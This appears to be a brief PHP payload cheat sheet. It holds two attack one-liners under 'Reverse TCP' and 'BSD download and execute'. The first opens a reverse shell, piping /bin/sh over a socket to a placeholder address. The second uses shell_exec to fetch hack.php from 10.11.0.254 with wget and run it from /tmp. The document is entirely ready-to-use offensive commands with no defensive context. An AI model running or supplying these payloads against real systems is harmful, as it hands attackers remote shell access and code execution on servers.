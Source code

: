 # PHP

## Reverse TCP
php -r '$sock=fsockopen("xx.xx.xx.xx",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

## BSD download and execute php.

<?php shell_exec("/usr/local/bin/wget -P /tmp 10.11.0.254/hack.php; /usr/local/bin/php /tmp/hack.php");?>


